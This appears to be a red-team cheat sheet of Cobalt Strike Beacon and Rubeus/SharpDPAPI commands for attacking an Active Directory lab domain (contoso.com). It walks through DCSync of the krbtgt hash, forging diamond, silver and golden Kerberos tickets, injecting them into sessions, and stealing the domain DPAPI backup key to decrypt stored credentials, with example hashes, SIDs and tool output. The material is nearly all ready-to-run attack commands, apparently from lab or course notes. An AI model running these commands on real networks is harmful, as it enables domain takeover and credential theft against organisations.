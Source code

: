     
##### DCSync

Obtain krbtgt hash and machine account hash
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

dcsync contoso.com CONTOSO\lon-db-1$

512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f
cce3f72b3b4bcffe0af7979588b885b6
```

---
##### Diamond Ticket

> **From the medium-integrity Beacon**:

Use AES256 hash of the `krbtgt` account to create a diamond ticket
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /krbkey:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /ticketuser:Administrator /ticketuserid:500 /domain:CONTOSO.COM /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Diamond Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

---

##### DPAPI Backup Key Abuse

> From the medium-integrity Beacon

Within a Domain Admin session Recover the domain's backup DPAPI key.
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

```

Drop the impersonation and use the key to decrypt credentials stored in the Credential Manager
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:
```

---
##### Silver Ticket

> This can be done locally offline on your machine

Use AES256 machine hash to forge silver ticket (any service can be used)
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:[HASH] /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject Silver Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```

### USING SERVICE ACCOUNT

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /user:MSSQLSvc /domain:dublin.contoso.com /password:Passw0rd!

[*] Action: Calculate Password Hash(es)

[*] Input password             : Passw0rd!
[*] Input username             : mssql_svc
[*] Input domain               : CONTOSO.COM
[*] Salt                       : CONTOSO.COMmssql_svc
[*]       rc4_hmac             : FC525C9683E8FE067095BA2DDC971889
[*]       aes128_cts_hmac_sha1 : 53B5F3804FBF13E7DD624E71D18DF9BB
[*]       aes256_cts_hmac_sha1 : E4A51DAD46B6D1BA85627EEC82991C8FC94C279CE06140751E02BA015E6A21F9
[*]       des_cbc_md5          : DF91ECCDAE70BA0E
```

Then forge the service ticket for MSSQLSvc/dub-sql-2.dublin.contoso.com.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /id:4102 /groups:513,1106,1107,4602 /domain:CONTOSO.COM /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:MSSQLSvc/dub-sql-2.dublin.contoso.com /rc4:FC525C9683E8FE067095BA2DDC971889 /user:nwallace /ldap /domain:dublin.contoso.com /sid:S-1-5-21-2958544638-1589230383-838459903 /nowrap

```

Where:

- `/id` is the RID for rsteel.
    
- `/groups` are the RIDs of rsteel's group membership.  513 is 'Domain Users', 1106 is 'Workstation Admins', 1107 is 'Server Admins', and 4602 is 'Database Admins'.

```powershell
make_token DUBLIN\nwallace FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist

execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:lon-db-1.contoso.com /m:info

```


---
##### Golden Ticket

> This can be done locally offline on your machine

Use AES256 hash of the `krbtgt` account to forge a golden ticket as the default DA
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap
```

> **From the high-integrity Beacon**:

 Create a new sacrificial logon session for the impersonated user
 ```powershell
make_token CONTOSO\Administrator FakePass
```

Inject GOlden Ticket into logon session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
run klist purge
```